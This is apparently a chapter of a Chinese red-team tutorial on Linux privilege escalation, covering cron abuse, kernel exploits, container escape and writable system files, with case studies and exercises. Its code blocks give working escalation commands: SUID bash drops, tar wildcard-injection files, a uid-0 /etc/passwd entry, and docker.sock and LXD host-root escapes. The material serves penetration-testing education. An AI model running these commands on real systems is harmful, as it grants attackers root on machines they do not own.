### 5.2 查看计划任务

```bash
# 当前用户的crontab
crontab -l

# 系统crontab
cat /etc/crontab

# cron.d目录
ls -la /etc/cron.d/
cat /etc/cron.d/*

# cron.hourly / cron.daily / cron.weekly / cron.monthly
ls -la /etc/cron.hourly/
ls -la /etc/cron.daily/
ls -la /etc/cron.weekly/
ls -la /etc/cron.monthly/

# 用户的crontab
ls -la /var/spool/cron/
ls -la /var/spool/cron/crontabs/
```

### 5.3 常见利用方式

**方式1：直接修改计划任务执行的脚本**
如果脚本可写，
直接在脚本里加提权命令。

```bash
# 比如计划任务每分钟执行 /tmp/backup.sh
# 而我们能修改这个文件
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /tmp/backup.sh

# 等一分钟
/tmp/bash -p
# 搞定
```

**方式2：脚本路径可写，通配符问题**
如果计划任务里用了通配符，
比如：
```bash
* * * * * root cd /backup && tar czf /tmp/backup.tar.gz *
```
那可以用之前讲过的tar通配符注入。

**方式3：脚本所在目录可写**
如果脚本所在的目录我们能写，
但脚本本身我们不能写，
那能不能利用呢？

有些情况下可以，
比如：
- 如果目录有我们的写入权限，
  我们可以移动或删除原来的脚本，
  换成我们自己的。
  （但前提是我们对目录有写权限）

**方式4：PATH劫持**
如果计划任务里的命令
没有写绝对路径，
比如：
```bash
* * * * * root run_backup
```
那cron执行的时候会按PATH来找命令。
如果我们能修改PATH，
或者在PATH前面的目录放一个
同名的恶意命令，
就能劫持。

不过cron的PATH一般是系统默认的，
而且cron的PATH里的目录
普通用户通常不能写，
所以这种情况比较少见。

但如果cron的脚本里设置了PATH，
而PATH里有我们能写的目录，
那就有机会了。

**方式5：通配符注入**
前面讲过了，
tar、zip等命令的通配符注入。

---

## 💣 内核漏洞提权

### 6.1 原理

和Windows内核漏洞提权类似，
Linux内核漏洞提权就是
利用Linux内核的漏洞，
从普通用户提升到root权限。

Linux是开源的，
漏洞披露得比较多，
所以内核漏洞也不少。

但实战中内核漏洞提权
一般是最后的选择，
因为：
- 有崩溃风险（kernel panic）
- 需要对应内核版本
- 有些EXP不稳定
- 容易被检测到

不过如果没有其他提权路径，
内核漏洞还是很有效的。

> 💡 **深入理解：内核漏洞为什么能直接拿到root？——"操作系统的大管家"**
>
> 要理解内核漏洞提权，先理解内核是什么：
>
> 把操作系统想象成一个大楼：
> ```
> ┌──────────────────────────────────────────┐
> │  用户层（User Space）                     │
> │  ┌──────┐ ┌──────┐ ┌──────┐             │
> │  │ 你的  │ │ Web  │ │ DB   │  各种应用程序 │
> │  │ Shell │ │ 服务 │ │ 服务 │             │
> │  └──┬───┘ └──┬───┘ └──┬───┘             │
> │     │        │        │                  │
> │     └────────┼────────┘                  │
> │              │ 系统调用（syscall）         │
> ├──────────────┼───────────────────────────│
> │  内核层      ▼                            │
> │  ┌──────────────────────────────┐        │
> │  │       Linux Kernel           │        │
> │  │  （大楼管理处的总办公室）      │        │
> │  │  - 管理所有内存（谁用几号房）  │        │
> │  │  - 管理所有CPU（谁干活）      │        │
> │  │  - 管理所有文件（谁的文件）    │        │
> │  │  - 管理所有进程（谁在楼里）    │        │
> │  │  - 持有所有钥匙              │        │
> │  └──────────────────────────────┘        │
> └──────────────────────────────────────────┘
> ```
>
> 普通应用（你的Shell、Web服务等）在"用户层"，
> 想做什么（读文件、写socket、创建进程），
> 都必须通过 `syscall` 向内核"打报告申请"。
>
> 内核是唯一能做"任何事"的层级！
>
> **内核漏洞提权的原理就是：**
> 利用内核代码中的bug，绕过"打报告"机制，
> 直接在内核层执行攻击者的代码。
>
> 举一个经典例子——Dirty COW（脏牛，CVE-2016-5195）：
>
> ```
> Linux的内存管理用Copy-On-Write（写时复制）机制：
> - 多个进程读同一个文件时，共享同一块内存（省内存）
> - 某个进程要写时，内核先复制一份，写操作在副本上进行
> - 这样就保证写操作不影响其他进程
>
> Dirty COW的bug在于：
> 攻击者利用竞态条件（race condition），
> 在"内核正要复制"和"复制完成"之间的微小时间窗口内，
> 往原始内存里写入数据。
> 
> 结果：攻击者可以修改原本只读的文件！
> 比如把 /etc/passwd 里的普通用户改成 root 权限。
> ```
>
> 所以内核漏洞提权的本质是：
> **你不是通过正常渠道（syscall + 权限检查）变成root，
> 而是在内核里面直接"作弊"，绕过所有检查。**
>
> 这就是为什么内核漏洞威力大但风险也大：
> - **威力大**：一旦进入内核空间，所有权限检查都失效了
> - **风险大**：如果EXP写得不好（比如竞态条件没把握好），
>   内核可能直接崩溃（kernel panic），服务器挂了

### 6.2 常见内核漏洞

**经典的内核漏洞：**

| 漏洞 | CVE | 影响版本 | 说明 |
|------|-----|---------|------|
| Dirty COW | CVE-2016-5195 | Linux 2.6.22 - 4.8.3 | 非常有名的脏牛漏洞，成功率极高 |
| Dirty Pipe | CVE-2022-0847 | Linux 5.8 - 5.16.11/5.15.25/5.10.102 | 管道漏洞，可以修改任意文件 |
| SUDO 缓冲区溢出 | CVE-2021-3156 | sudo 1.8.2 - 1.8.31p2 / 1.9.0 - 1.9.5p1 | sudo的漏洞，几乎所有Linux都有 |
| Polkit 权限提升 | CVE-2021-3560 | polkit 0.113+ | 几乎所有现代Linux发行版 |
| eBPF 漏洞 | CVE-2021-3490 | Linux 5.8-rc1 之后 | eBPF验证器漏洞 |
| SUID 可执行文件漏洞 | CVE-2019-13272 | Linux 4.10 - 5.2-rc3 | PTRACE_TRACEME + SUID |
| 本地提权 | CVE-2017-16995 | Linux 4.14 - 4.14.7 | eBPF漏洞 |
| 本地提权 | CVE-2015-1328 | Ubuntu 12.04/14.04/15.04 | overlayfs漏洞 |
| 本地提权 | CVE-2015-3296 | Linux 3.16 - 4.1 | 各种发行版 |
| 本地提权 | CVE-2014-0038 | Linux 3.4+ - 3.13 | X32 recvmmsg漏洞 |
| 本地提权 | CVE-2010-3904 | Linux 2.6.22 - 2.6.36-rc8 | RDS协议漏洞 |
| 本地提权 | CVE-2009-1185 | Linux 2.6 | udev 141之前 |

**最有名的几个：**

**1. Dirty COW（脏牛）CVE-2016-5195**
- 非常经典，几乎所有老版本Linux都有
- 成功率极高，非常稳定
- 影响范围：Linux内核 2.6.22 到 4.8.3
- 利用方式：通过COW（写时复制）机制的漏洞，修改只读文件

**2. Dirty Pipe CVE-2022-0847**
- 比较新的漏洞
- 影响 Linux 5.8 及之后的版本，直到 5.16.11/5.15.25/5.10.102
- 利用简单，可以修改任意文件内容

**3. Sudo Baron Samedit CVE-2021-3156**
- sudo的缓冲区溢出漏洞
- 不需要知道密码，普通用户就能利用
- 影响范围很大，几乎所有Linux发行版都有
- 成功率很高

**4. Polkit CVE-2021-3560**
- 权限管理服务polkit的漏洞
- 影响几乎所有现代Linux发行版
- 利用简单，不需要什么特殊条件

**图45-5 经典Linux内核漏洞对比图**



### 6.3 漏洞检测

怎么知道目标系统有哪些内核漏洞可以利用？

**方法1：Linux Exploit Suggester**
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```
这个脚本会根据系统版本
列出可能的漏洞。

**方法2：LinPEAS**
LinPEAS也会检查可能的内核漏洞。

**方法3：手动收集信息，对比漏洞数据库**
```bash
uname -a
cat /etc/os-release
# 然后去漏洞数据库查
```

### 6.4 利用步骤

1. 收集系统信息（内核版本、发行版）
2. 检测可能的漏洞
3. 找到对应的EXP
4. 上传到目标
5. 编译（如果是源码的话）
6. 执行EXP
7. 验证结果

**注意事项：**
- 注意架构（32位/64位）
- 注意内核版本
- 注意发行版
- 最好先在测试机上试
- 内核漏洞利用失败可能导致系统崩溃

---

## 🐳 容器逃逸

### 7.1 什么是容器逃逸？

现在Docker用得越来越多了，
很多应用都跑在Docker容器里。

如果我们拿到了一个容器里的Shell，
能不能逃出容器，
获得宿主机的root权限呢？

这就是容器逃逸。

容器逃逸的前提是
容器配置有问题，
比如：
- 特权容器（--privileged）
- 挂载了敏感目录
- 挂载了Docker socket
- 某些内核能力（capabilities）
- 内核漏洞
- ...

### 7.2 常见容器逃逸方法

**1. 特权容器逃逸**
如果容器是用`--privileged`启动的，
那容器里的进程几乎拥有所有权限，
逃逸非常简单。

方法：挂载宿主机磁盘
```bash
# 查看磁盘
fdisk -l

# 挂载宿主机根目录
mkdir /mnt/host
mount /dev/sda1 /mnt/host

# 然后就能看到宿主机的文件了
ls /mnt/host/
chroot /mnt/host bash
# 就获得宿主机的root了
```

**2. Docker Socket挂载逃逸**
如果容器里挂载了`/var/run/docker.sock`，
那我们可以直接通过这个socket
和Docker daemon通信，
创建新的特权容器，
挂载宿主机目录，
从而逃逸。

```bash
# 查看docker命令是否可用
which docker

# 或者用curl直接和socket通信
curl -s --unix-socket /var/run/docker.sock http://localhost/version
```

利用：
```bash
# 创建一个新容器，挂载宿主机根目录
docker run -v /:/host -it --privileged ubuntu bash

# 然后在新容器里
chroot /host bash
# 就获得宿主机root了
```

**3. 通过cap_sys_admin逃逸**
如果容器有`SYS_ADMIN`能力，
可以挂载cgroup，
然后通过cgroup的notify_on_release
来执行命令。

这个方法比较复杂，
需要一些条件。

**4. 挂载了/proc目录逃逸**
如果挂载了/proc并且有写权限，
可能可以利用。

**5. 内核漏洞逃逸**
容器共享宿主机内核，
所以如果内核有漏洞，
在容器里也能利用，
直接提权到宿主机root。

比如Dirty COW、Dirty Pipe等
都可以用来容器逃逸。

### 7.3 容器内信息收集

怎么判断是不是在容器里？

```bash
# 查看 /.dockerenv 文件
ls -la /.dockerenv
# 如果存在，很可能是Docker容器

# 查看cgroup
cat /proc/1/cgroup
# 如果里面有docker或者lxc字样，就是容器

# 查看进程
ps aux
# 如果进程很少，可能是容器

# 查看主机名
hostname
# 可能是容器ID
```

收集信息：
```bash
# 查看容器的capabilities
capsh --print 2>/dev/null
cat /proc/self/status | grep Cap

# 查看挂载
mount
df -h

# 查看环境变量
env
```

**图45-6 Docker容器逃逸路径图**



---

## 🧪 其他提权方法

### 8.1 NFS共享提权

如果NFS共享配置不当，
比如`no_root_squash`没有设置，
或者有可写的共享，
可能可以用来提权。

**原理：**
NFS默认有root_squash，
会把root用户映射成nobody，
防止远程root访问。
但如果配置了`no_root_squash`，
远程root就会被当作本地root。

如果我们能以root身份
挂载NFS共享，
就可以创建SUID文件，
然后在目标机器上执行，
获得root权限。

**利用条件：**
- NFS共享有no_root_squash
- 我们能挂载这个共享
- 我们在本地有root权限

**利用步骤：**
1. 查看NFS共享
2. 挂载共享
3. 创建一个SUID的bash
4. 到目标机器上执行这个bash
5. 获得root权限

### 8.2 通配符注入

前面讲sudo提权的时候提到过，
这里再总结一下。

常见的通配符注入：
- tar + --checkpoint-action
- zip + --unzip-command
- rsync
- 其他命令

**利用场景：**
- sudo配置里用了通配符
- 计划任务里用了通配符
- 脚本里用了通配符

### 8.3 写入权限提权

如果我们对某些关键文件
有写入权限，
直接就能提权。

**关键文件：**
- `/etc/passwd` — 能写的话直接加个root用户
- `/etc/shadow` — 能写的话修改root密码
- `/etc/sudoers` — 能写的话加个sudo权限
- `~/.ssh/authorized_keys` — 能写的话放公钥
- 服务的配置文件 — 能写的话改配置
- 服务的程序文件 — 能写的话替换程序

**例子：可写/etc/passwd**
```bash
# 生成密码
openssl passwd -1 -salt test P@ssw0rd
# $1$test$xxxxxxxxx

# 添加用户
echo 'test:$1$test$xxxxxxxxx:0:0:root:/root:/bin/bash' >> /etc/passwd

# 切换用户
su test
# 输入密码 P@ssw0rd
# 就变成root了
```

### 8.4 密码复用和弱密码

很多时候，
我们在系统里找到的密码，
可能就是root的密码。

比如：
- 配置文件里的数据库密码
- 历史命令里的密码
- 备份文件里的密码
- 用户家目录里的密码文件

如果root也用了同样的密码，
那直接su就能切过去。

### 8.5 LXC/LXD提权

如果用户在lxd组里，
可以通过创建LXD容器来提权。

**原理：**
lxd组的用户可以管理LXD容器，
可以创建一个特权容器，
挂载宿主机根目录，
然后在容器里就能访问宿主机所有文件。

**利用步骤：**
```bash
# 导入一个镜像
lxc image import alpine.tar.gz --alias alpine

# 初始化LXD（如果还没初始化的话）
lxd init

# 创建一个特权容器，挂载宿主机根目录
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

# 启动容器
lxc start privesc

# 进入容器
lxc exec privesc /bin/sh

# 在容器里
ls /mnt/root/
# 就是宿主机的根目录了
chroot /mnt/root bash
# 获得宿主机root
```

---

## 🎯 真实案例

### 案例1：sudo vim 提权

**场景：**
护网行动中，
我们通过SQL注入拿到了
一台Linux Web服务器的WebShell，
权限是www-data。

**提权过程：**

**第一步：信息收集**
```bash
whoami
# www-data

id
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

cat /etc/os-release
# Ubuntu 20.04.3 LTS

uname -r
# 5.4.0-91-generic
```

**第二步：跑LinPEAS**
上传linpeas.sh并执行。

结果发现了重要信息：
```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-esc#sudo
Sudo version 1.8.31

[i] Checking sudo tokens...
[+] www-data can run the following commands:
    (admin) NOPASSWD: /usr/bin/vim /var/www/html/*.log
```

www-data用户可以以admin身份
用vim编辑/var/www/html/下的log文件。

虽然不能直接提权到root，
但先看看admin用户有什么权限。

**第三步：从vim到admin shell**
vim可以执行命令，对吧？

```bash
sudo -u admin /usr/bin/vim /var/www/html/test.log
```

然后在vim里：
```
:!/bin/bash
```

回车...
```bash
$ whoami
admin
```
成功变成admin用户了！

**第四步：admin用户的信息收集**
```bash
id
# uid=1000(admin) gid=1000(admin) groups=1000(admin),24(cdrom),27(sudo),...
```

哦！admin用户在sudo组里！

那看看admin的sudo权限：
```bash
sudo -l
# 输入admin的密码？不对，我们不知道密码...
```

等等，我们是从WebShell过来的，
不知道admin的密码啊...

不过没关系，
看看admin家目录里有什么。

```bash
ls -la /home/admin/
# .bash_history
# .ssh/
# ...

cat /home/admin/.bash_history
# 看看历史命令里有没有密码

# 看看.ssh目录
ls -la /home/admin/.ssh/
# id_rsa 私钥！
```

有SSH私钥！
那我们可以用这个私钥
登录admin用户，
或者看看能不能sudo。

不过先看看能不能不用密码sudo。

```bash
sudo -n -l
# -n 表示非交互模式，不需要密码
```
好像不行，要密码。

不过等等，
我们已经有admin用户的Shell了，
虽然是通过vim得来的。
我们能不能在admin的Shell里
做更多的信息收集？

看看有没有什么自动运行的脚本，
或者看看admin的sudo是不是
不需要密码就能执行某些命令？

不对，我们应该先尝试
用其他方法提权。

让我们再想想...

哦，对了，
admin在sudo组里，
但是我们不知道密码。
那我们能不能找到admin的密码？

看看admin家目录里的文件：
```bash
find /home/admin/ -type f 2>/dev/null
# ...
# 发现一个叫 notes.txt 的文件
cat /home/admin/notes.txt
# "服务器临时密码: Admin@123!"
```
运气不错！找到了密码！

**第五步：用密码sudo提权**
```bash
su admin
Password: Admin@123!

# 然后
sudo su
Password: Admin@123!

whoami
# root
```

搞定！从www-data到admin再到root。

**总结：**
- 先通过sudo vim获得admin用户Shell
- 在admin家目录找到密码
- 然后sudo到root
- 一步一步，稳扎稳打

### 案例2：SUID find 提权

**场景：**
拿到一台CentOS服务器的普通用户Shell，
用户是test。

**提权过程：**

**第一步：查找SUID文件**
```bash
find / -perm -4000 -type f 2>/dev/null

/bin/mount
/bin/ping
/bin/su
/bin/umount
/usr/bin/at
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/find
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/sudo
...
```

等等！`/usr/bin/find`有SUID位？
所有者是root吗？

```bash
ls -l /usr/bin/find
# -rwsr-xr-x. 1 root root ...
```

是的！find命令有SUID位！
这很少见，但确实遇到了。

**第二步：利用find提权**
```bash
find . -exec /bin/bash -p \; -quit

# 看看权限
whoami
# root
```

就这么简单！
一行命令搞定！

**总结：**
- 找到有SUID的find命令
- 直接用-exec执行bash
- 一行命令提权
- 就这么简单

### 案例3：计划任务 + 通配符注入

**场景：**
拿到一台Debian服务器的普通用户Shell，
权限很低，什么都干不了。

**提权过程：**

**第一步：查看计划任务**
```bash
cat /etc/crontab

# ...
# 发现一行
*/5 * * * * root cd /backup && tar -zcf /tmp/backup.tar.gz *
```

哦！有个计划任务，
每5分钟以root身份执行一次，
在/backup目录下用tar打包所有文件。

tar + 通配符！
这不就是通配符注入吗？

**第二步：检查/backup目录权限**
```bash
ls -ld /backup
# drwxrwxrwx 2 root root 4096 ... /backup
```
所有人都能写！太棒了！

**第三步：构造通配符注入**
```bash
cd /backup

# 创建shell脚本
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > shell.sh
chmod +x shell.sh

# 创建两个特殊文件
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
```

**第四步：等待计划任务执行**
等5分钟...

**第五步：验证**
```bash
ls -l /tmp/bash
# -rwsr-sr-x 1 root root ... /tmp/bash

# 执行
/tmp/bash -p

whoami
# root
```

成功！

**总结：**
- 发现计划任务中的tar命令
- 目录可写 + 通配符
- 构造checkpoint-action注入
- 等待执行，获得root
- 经典的通配符注入提权

### 案例4：Dirty COW 内核漏洞提权

**场景：**
拿到一台很老的Ubuntu 14.04服务器，
是个普通用户，
试了各种配置错误都不行，
准备试试内核漏洞。

**提权过程：**

**第一步：收集系统信息**
```bash
uname -r
# 3.13.0-24-generic

cat /etc/issue
# Ubuntu 14.04 LTS
```

很老的版本，3.13的内核。

**第二步：跑Linux Exploit Suggester**
```bash
./linux-exploit-suggester.sh
```

结果列出了一堆漏洞，
其中包括：
```
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/Vulnerability-Details
   Exposure: highly probable
   Tags: debian=7.9{kernel:3.2.0-4-686-pae},ubuntu=14.04{kernel:3.13.0-24-generic}
   Download URL: https://www.exploit-db.com/download/40839
   Comments: For Education Purpose Only...
```

Dirty COW！
成功率极高的漏洞！

**第三步：下载EXP**
找一个Dirty COW的EXP，
比如dirty.c。

**第四步：上传并编译**
```bash
# 上传dirty.c到/tmp
gcc -pthread dirty.c -o dirty -lcrypt
```

**第五步：执行**
```bash
./dirty 我的新密码

# 等待...
```

等了一会儿，
显示成功了。

**第六步：验证**
```bash
su firefart
# 输入刚才设置的密码

whoami
# root
```

成功了！
Dirty COW就是这么强。

**总结：**
- 老系统先试试内核漏洞
- Dirty COW成功率极高
- 老版本Linux几乎都有
- 不过现在新系统都修了

### 案例5：Docker容器逃逸

**场景：**
拿到一个Web应用的Shell，
看起来是在Docker容器里，
想办法逃出去。

**提权过程：**

**第一步：判断是不是容器**
```bash
ls -la /.dockerenv
# 存在！

cat /proc/1/cgroup
# 11:cpuset:/docker/abc123...
# 10:cpu,cpuacct:/docker/abc123...
# ...
```
确认是Docker容器。

**第二步：收集容器信息**
```bash
whoami
# root —— 容器里是root，但只是容器里的

ps aux
# 进程很少，只有几个

ls -la /var/run/docker.sock
# ls: cannot access '/var/run/docker.sock': No such file or directory
# 没有挂载docker socket

capsh --print
# 看capabilities
# 有很多capability？
# 看看有没有 SYS_ADMIN
```

看了一下，
没有SYS_ADMIN，
也不是特权容器。

那怎么办呢？

**第三步：看看挂载**
```bash
mount
# ...
# 发现 /host/logs 挂载了宿主机的目录
# /dev/sda1 on /host/logs type ext4 (rw,relatime,...)
```

哦！挂载了宿主机的一个目录！
但是只是/logs目录，
不是根目录。

能不能用什么办法
从这个目录突破呢？

先看看这个目录有什么：
```bash
ls -la /host/logs/
# 都是日志文件
```

能写吗？
```bash
touch /host/logs/test
# 可以写！
```

能写日志目录，
但能做什么呢？

等等，
这个容器的内核版本是多少？
```bash
uname -r
# 4.15.0-23-generic
```

4.15的内核...
有没有什么内核漏洞可以用？
Dirty COW是3.x到4.8的，
4.15已经修了。

那试试其他漏洞？

或者...
我们再想想还有没有别的办法。

等等，
我们刚才挂载的是宿主机的/logs目录，
我们能写，
那有没有什么服务会读这个目录下的文件？
或者有没有logrotate之类的？

不过我们在容器里，
看不到宿主机的服务啊。

再想想...
我们是root用户，在容器里，
能加载内核模块吗？
```bash
lsmod
# 能列出模块

modprobe 某个模块
# 试试？
```
好像不行，没有权限。

**第四步：换个思路**
再仔细看看我们有什么。

等等，
这个Web应用是什么？
是一个文件上传服务吗？
我们是怎么进来的？

哦，对了，
我们是通过Web应用的文件上传漏洞进来的，
这个Web应用是跑在容器里的。

那宿主机上是什么？
宿主机可能还有其他服务吗？
或者宿主机的某个服务
会访问容器里的东西？

不对，应该是反过来...

等等，再看看挂载：
```bash
df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay          50G   20G   30G  40% /
tmpfs            64M     0   64M   0% /dev
tmpfs           1.9G     0  1.9G   0% /sys/fs/cgroup
/dev/sda1        50G   20G   30G  40% /host/logs
...
```

我们的根目录是overlay，
这是Docker用的存储驱动。

再看看环境变量：
```bash
env
# 有一些数据库连接信息
# 数据库地址是 172.17.0.1
# 这应该是宿主机的Docker网关地址
```

宿主机IP是172.17.0.1，
我们可以访问宿主机的网络。

那能不能从网络层面突破？
比如攻击宿主机上的其他服务？

先扫一下宿主机：
```bash
nmap -p- 172.17.0.1
# 或者用nc扫
```

扫到一些端口，
比如22（SSH）、80（HTTP）、3306（MySQL）...

MySQL开着，
我们有数据库的账号密码吗？
环境变量里好像有！
```bash
echo $DB_USER
# webapp
echo $DB_PASSWORD
# webapp123
```

这是数据库的账号，
是普通用户还是root？
先登录看看。

```bash
mysql -h 172.17.0.1 -u webapp -pwebapp123
```

登录进去了，
看看有什么权限：
```sql
SHOW GRANTS;
-- 只是普通的SELECT、INSERT等权限
-- 没有FILE权限，不能读文件
```
好像不行。

**第五步：回到容器本身**
我们再仔细检查一下容器，
有没有什么漏掉的。

```bash
# 看看所有挂载
mount | grep -v proc | grep -v sys | grep -v cgroup

# 看看有没有什么设备
ls -la /dev/
```

等等，
`/dev/sda1`在挂载里出现了，
我们能不能直接访问这个设备？
```bash
ls -l /dev/sda1
# 存在！

# 能不能直接读？
dd if=/dev/sda1 bs=4096 count=1 of=/tmp/test 2>&1
# 好像可以！
```

如果我们能直接读宿主机的磁盘，
那不就能读取宿主机的所有文件了吗？
比如`/etc/shadow`、`/root/.ssh/id_rsa`等等。

不过直接读磁盘的话，
需要解析文件系统，
有点麻烦。

但我们可以直接挂载啊！
```bash
mkdir /tmp/host_root
mount /dev/sda1 /tmp/host_root
# 不行，权限不够...
```

虽然能读设备，
但不能挂载，
因为没有SYS_ADMIN权限。

不过我们可以用debugfs来读ext4文件系统啊！

```bash
debugfs -R "cat /etc/shadow" /dev/sda1
```

如果有debugfs的话，
就能直接读文件了。

不过这个案例里，
容器里没有debugfs。

但是我们可以把设备dump下来，
或者用其他工具。

不过这个案例有点复杂，
我们换一个更直接的。

实际上，
实战中最常见的容器逃逸
是特权容器和docker socket挂载，
这两种最简单也最常见。

**这个案例的另一种结局：**
后来我们发现，
虽然这个容器不是特权容器，
但是有`--cap-add=SYS_PTRACE`，
可以调试进程。
然后我们通过ptrace注入到
宿主机上的某个进程？
不对，ptrace只能看到当前PID namespace里的进程。

好吧，这个案例有点复杂了，
我们就到这里吧。
实际中遇到容器，
先检查是不是特权容器、
有没有docker socket、
有没有挂载宿主机目录、
内核版本有没有漏洞...

这些是最常见的逃逸路径。

---

## ✏️ 课后习题

### 一、选择题（10道）

1. Linux中SUID权限的数字表示是？
   A. 1
   B. 2
   C. 4
   D. 7

2. 查找系统中所有SUID文件的命令是？
   A. find / -perm -2000 -type f
   B. find / -perm -4000 -type f
   C. find / -perm -1000 -type f
   D. find / -perm 777 -type f

3. 以下哪个命令如果有sudo权限，可以直接提权？
   A. ls
   B. find
   C. cat
   D. echo

4. Dirty COW（脏牛）漏洞的CVE编号是？
   A. CVE-2016-5195
   B. CVE-2022-0847
   C. CVE-2021-3156
   D. CVE-2021-3560

5. 查看当前用户sudo权限的命令是？
   A. sudo -v
   B. sudo -l
   C. sudo -h
   D. sudo -k

6. 如果tar命令在计划任务中以root运行，并且用了通配符，最可能的提权方式是？
   A. SUID提权
   B. 通配符注入
   C. 内核漏洞提权
   D. sudo提权

7. 以下哪个不是Linux的特殊权限位？
   A. SUID
   B. SGID
   C. Sticky Bit
   D. ACL

8. 以下哪个网站可以查询Linux命令的提权姿势？
   A. GTFOBins
   B. Exploit-DB
   C. CVE Details
   D. HackTheBox

9. Docker特权容器是用哪个参数启动的？
   A. --root
   B. --privileged
   C. --admin
   D. --system

10. 以下关于Linux提权的说法，错误的是？
    A. sudo提权是最常见的提权方式之一
    B. SUID程序如果是root所有的，一定能提权
    C. 内核漏洞提权有系统崩溃的风险
    D. 计划任务配置不当可能导致提权

### 二、填空题（5道）

1. Linux中，查看当前用户信息的命令是 `______`（显示UID、GID、组等信息）。
2. 设置了SUID位的文件，在执行时会临时获得______的权限。
3. 查找系统中所有SGID文件的命令是 `find / -perm -______ -type f 2>/dev/null`。
4. 经典的脏牛漏洞（Dirty COW）的CVE编号是CVE-2016-______。
5. Linux中，系统的crontab配置文件路径是 `/etc/______`。

### 三、简答题（5道）

1. 简述Linux中SUID、SGID、粘滞位的作用。
2. Linux提权中，信息收集主要收集哪些方面的信息？
3. 列举至少5种sudo提权的姿势（可以用什么命令）。
4. 什么是通配符注入？举一个例子说明。
5. 常见的Docker容器逃逸方法有哪些？列举至少3种。

### 四、实操题（5道）

1. 在你的Linux实验环境中，练习使用LinPEAS或LinEnum进行信息收集。
2. 配置一个sudo提权环境（比如让普通用户能以root身份执行find），然后练习提权。
3. 找一个有SUID find的环境（或者自己配置），练习SUID提权。
4. 配置一个计划任务通配符注入的环境，练习利用tar通配符注入提权。
5. 搭建一个Docker特权容器，练习容器逃逸。

---

## 📖 本章小结

::: tip 总结一下
这一章我们系统学习了Linux提权技术，
内容非常丰富。

**重点回顾：**

1. **Linux权限体系**
   - 用户和用户组
   - 文件权限（rwx）
   - 特殊权限（SUID、SGID、粘滞位）
   - sudo机制

2. **信息收集**
   - 系统信息、用户信息、进程信息
   - 文件系统、计划任务、网络信息
   - 自动化工具：LinPEAS、LinEnum、Linux Exploit Suggester

3. **sudo提权**
   - 直接提权的命令（su、bash、vim、find等）
   - 程序功能提权（awk、python、perl等）
   - 通配符注入
   - 环境变量提权（LD_PRELOAD等）
   - GTFOBins网站

4. **SUID/SGID提权**
   - SUID提权原理
   - 常见SUID提权程序
   - 共享库注入
   - SGID提权

5. **计划任务提权**
   - 直接修改脚本
   - 通配符注入
   - PATH劫持

6. **内核漏洞提权**
   - Dirty COW、Dirty Pipe、Sudo漏洞、Polkit漏洞等
   - 漏洞检测工具
   - 利用步骤和注意事项

7. **容器逃逸**
   - 特权容器逃逸
   - Docker Socket挂载逃逸
   - 内核漏洞逃逸
   - 其他方式

8. **其他提权方法**
   - NFS共享提权
   - 通配符注入
   - 写入权限提权
   - 密码复用
   - LXC/LXD提权

Linux提权的方法很多，
但核心思路是一样的：
先收集信息，
然后分析可能的提权路径，
按优先级逐一尝试。

配置错误提权优先（风险小、成功率高），
内核漏洞放在最后（有崩溃风险）。

**图45-7 Linux提权方法优先级路线图**



到这里，提权技术模块我们就学完了。
下一章是总结与回顾。

继续加油！
:::

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day050-senior-Windows提权进阶)
- [➡️ 下一章：---](/redteam/day052-senior-Linux提权技术)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
